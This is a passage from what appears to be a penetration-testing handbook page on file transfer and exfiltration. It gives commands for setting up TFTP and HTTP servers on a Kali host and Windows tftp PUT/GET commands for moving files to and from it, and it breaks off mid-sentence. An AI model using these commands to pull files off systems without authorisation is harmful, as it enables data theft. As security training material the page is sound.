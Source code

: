 The example above was extracted from [here](https://0xffsec.com/handbook/exfiltration/#dns).

## Transfer via TFTP

TFTP can be used to transfer files to/from older Windows OS.

By default installed on: Up to Windows XP and 2003.\
By default not installed on: Windows 7, Windows 2008, and newer.

**Kali**

```
apt update && sudo apt install atftp  
mkdir /tftp  
chown nobody: /tftp  
atftpd --daemon --port 69 /tftp
```

**Windows**

```
tftp -i 192.168.1.2 PUT file1.txt  
tftp -i 192.168.1.2 GET file2.txt`
```

Alternatively, we can set up a listener with `atftp` as follows:

```
atftpd --daemon --port 69 /tftp
```

## Transfer via HTTP

### Listening on HTTP

**Start HTTP Service:**

```
sudo systemctl start apache2
```

**Verify HTTP Service**

```
sudo ss -antlp | grep apache
```

Alternatively on your Linux host run a Python HTTP Server with:

```bash
sudo python -m SimpleHTTPServer 80
```

Alternatively, on your Linux host run a Python3 HTTP Server with:

```
sudo python3 -m http.server 80
```

Alternatively, we can use busybox :
